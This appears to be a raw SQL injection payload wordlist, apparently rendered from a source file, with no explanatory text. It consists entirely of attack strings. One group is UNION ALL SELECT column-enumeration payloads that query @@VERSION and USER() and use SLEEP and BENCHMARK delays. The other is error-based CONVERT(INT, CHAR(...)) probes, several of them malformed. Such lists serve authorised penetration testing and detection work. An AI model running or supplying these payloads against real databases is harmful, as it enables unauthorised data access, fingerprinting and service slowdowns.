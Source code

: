 ```
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT NULL-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))-- 
```